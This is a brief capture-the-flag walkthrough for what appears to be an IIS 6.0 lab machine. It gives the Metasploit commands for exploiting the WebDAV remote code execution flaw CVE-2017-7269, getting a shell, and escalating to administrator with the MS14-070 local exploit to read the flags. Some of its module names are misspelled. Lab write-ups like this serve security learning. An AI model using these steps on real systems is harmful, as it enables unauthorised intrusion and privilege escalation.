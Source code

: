 
A quick nmap search,

```
nmap {taget ip}
```

Shows port `80` is open, with one service, `Microsoft IIS version 6.0` which has a remote code execution vulnerability (CVE-2017-7269).

I run metasploit:

```
$ msfconsole

...

msf > search CVE-2017-7269

...

msf > use iis_webdav_scstoragepathfromurl
```

Using the metasploit module `iis_webdav_scstoragepathfromurl`, running `options`, I find I need to define `RHOSTS` (or the target ip), `LHOST` (the listening or my local ip), I can then run `exploit`.

```
msf > exploit
```

Running exploit gets me a shell on the target machine, but very little in terms of privileges. As I'm unable to run `getuid` or access the user flag.  At this point I run `ps`, which lists the running processes on this Windows box, and run `migrate 1796` (or some other pid), which is a process owned by `NT AUTHORITY\NETWORK SERVICE`, which I need to run before I run the next exploits.

In metasploit, run `background`, to set the current session to background so I can run `local_exploit_suggester`, which lists some exploits to improve my priv_escalation.

```
msf > background
msf > local_exploit_suggester
...
msf > use msf14_070_tcp_tcpip_ioctl
```

In both the `local_exploit_suggester` and `msf14_070_tcp_oictl`, when I run options I see that I do need to `set session 1`, or I need to tell metasploit that the next exploit needs to run on the initial `iis_webdav_scstoragepathfromurl` exploit.

`ms14_070_tcpip_ioctl` gets root access and I am able to find both flags in:

- `C:\Documents and Settings\Administrator\Desktop\root.txt`
- `C:\Documents and Settings\Harry\Desktop\user.txt`